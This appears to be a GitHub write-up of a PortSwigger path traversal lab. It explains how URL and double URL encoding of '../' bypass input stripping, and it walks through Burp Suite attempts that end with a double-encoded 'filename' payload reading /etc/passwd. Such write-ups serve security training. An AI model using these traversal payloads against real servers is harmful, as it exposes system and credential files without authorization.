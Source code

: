 ## Welcome, my friend. Today we will start the [4. Path traversal lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) in ```portswigger```

# Explain this Scenario:

### In some cases, such as when the path is used in a URL or in the filename parameter within a multipart/form-data request, servers may delete any cross-directory jump sequences before passing the input to the application. You can sometimes bypass this type of sanitization by using ```URL encoding``` or even ```double encoding``` of ```../``` symbols.


#### URL Encoding techniques

>URL Encoding

#### ```../``` becomes ```%2e%2e%2f```

### Double URL Encoding

#### ```../``` becomes ```%252e%252e%252f```

#### Non-standard encryptions

#### ```..%c0%af``` or ```..%ef%bc%8f``` may also work in some cases.

##### Use ```Burp Suite Pro``` to experiment with encryptions

#### For Burp Suite Professional users, Burp Intruder offers a preset list of payloads under the name Fuzzing - path traversal. This list contains some coded directory jump sequences you can try.


## Realistic scenario

#### Imagine that you are working on a web application that allows users to upload images. The application contains a mechanism to prevent ```../``` sequences. However, you can use encryption to bypass this mechanism:

##### If you send a request with the file parameter as follows

```
https://insecure-website.com/loadImage?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Or using double encryption:

```
https://insecure-website.com/loadImage?filename=%252e%252e%252f%252e%252e%252e%252e%252fetc%252fpasswd
````

### You can bypass input sanitization and access sensitive file.


-------------


# Let'a play this lap:

![image](https://github.com/user-attachments/assets/43278817-16b1-4476-bc9e-574f4c91b789)

#### First, we navigate inside the browser and search for all the existing parameters that we can benefit from, such as:

### We use the ```burp suite``` tool to help us intercept the request and modify it.

![image](https://github.com/user-attachments/assets/dfb70f41-f08c-4f5b-8c42-6f1ec2eecc00)


### Well, we have found ```filename``` parameter that may be affected by a vulnerability


##### The value of filename is ```49.jpg``` we will instead to ```../../../etc/passwd``` or ```/etc/passwd```


![image](https://github.com/user-attachments/assets/32ef3d0c-b625-417f-a906-579a1af668dd)

#### ok, No such file.

![image](https://github.com/user-attachments/assets/b72a69f2-98ea-487b-84a9-979deb542ace)


#### Also, No such file.

#### Let's try this:

```
....//....//....//etc/passwd
```

![image](https://github.com/user-attachments/assets/5c7b0fa2-fd00-4fbc-b491-2d78c73ae6bc)

#### Hmmm,Also no such file.

### Ok Let's try encoding this url in ```burp```. 

### ```../../../``` becomes ```%2e%2e%2f%2e%2e%2f%2e%2e%2f```

##### Let's try this:

```
%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
```

![image](https://github.com/user-attachments/assets/87223bd2-0eaa-4306-9f4a-f89f9cb19284)


### Ummm, Let's try with ```Double URL Encoding```.

### ```%2e%2e%2f%2e%2e%2f%2e%2e%2f``` becomes ```%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66```

![image](https://github.com/user-attachments/assets/07f18814-4054-455e-9612-7aa299f282e9)

##### Let's try this:

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

![image](https://github.com/user-attachments/assets/963d6ffe-7c04-4ac1-910f-8987b8c737f5)

### Great, we were able to access that sensitive file

![image](https://github.com/user-attachments/assets/2758238e-5ad5-4fd3-99cd-17b6fe1a65b0)

## Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/2c4923a2-ba08-43d5-801c-8c08e461709f" >
</p>







































































